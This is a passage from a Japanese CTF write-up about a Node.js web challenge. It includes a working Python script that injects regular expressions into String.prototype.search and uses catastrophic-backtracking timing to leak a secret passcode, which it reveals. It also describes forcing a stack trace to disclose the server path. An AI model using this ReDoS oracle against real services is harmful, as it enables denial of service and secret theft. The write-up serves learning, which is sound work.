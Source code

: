`secretword.txt` というファイルに書かれているものを当てればセッションの `AccessGranted` というプロパティが `true` になるようです。

一見不可能ですが、`secretword.search(secretWord)` と [`String.prototype.search`](https://developer.mozilla.org/ja/docs/Web/JavaScript/Reference/Global_Objects/String/search) の引数にユーザ入力が渡っていることに注目します。`String.prototype.search` の第一引数は正規表現として扱われます。[IJCTF 2020](2020-04-27-ijctf-2020.html#auth-のパスコードを取得する) で類題が出ていますから、それで作ったコードをいじって `secretword` を特定しましょう。

```python
import requests
import string
import time
import urllib.parse

BASE = 'http://(省略)/secretplace?secretWord='

res = "s4nch3z"
template = '^(?=(.*{}))(((((.*)*)*)*)*)*salt$'

for c in '.' + string.printable:
  t = time.time()
  requests.get(BASE + urllib.parse.quote(template.format(c + res)))
  if time.time() - t > 1.0:
    print(time.time() - t, c)

print('done')
```

`yo-s4nch3z` がパスコードでした。

### worldoor
```javascript
let worldoor = req.query.worldoor;
if (!Array.isArray(worldoor) && (typeof worldoor) !== "object") {
  if (!/rickstuff/.test(worldoor)) {
    if (worldoor.toLowerCase() === path.join(__dirname, "rickstuff").toLowerCase()) {
      // …
    }
    else {
      res.end("We can't open the door like that Morty.");
    }
  }
  else {
    res.end("Again Morty, touching things that I always say don't touch.");
  }
}
else {
  res.end("Come on Morty what's that!?");
}
```

`__dirname` と `rickstuff` を結合したものを当てればよさそうです。

`__dirname` をどうやって特定するかで悩んでいましたが、色々試していると `/secretplace?secretWord=(` にアクセスすると `(` は正規表現として正しくないためシンタックスエラーが発生し、スタックトレースから `/home/ctf` であることがわかりました。
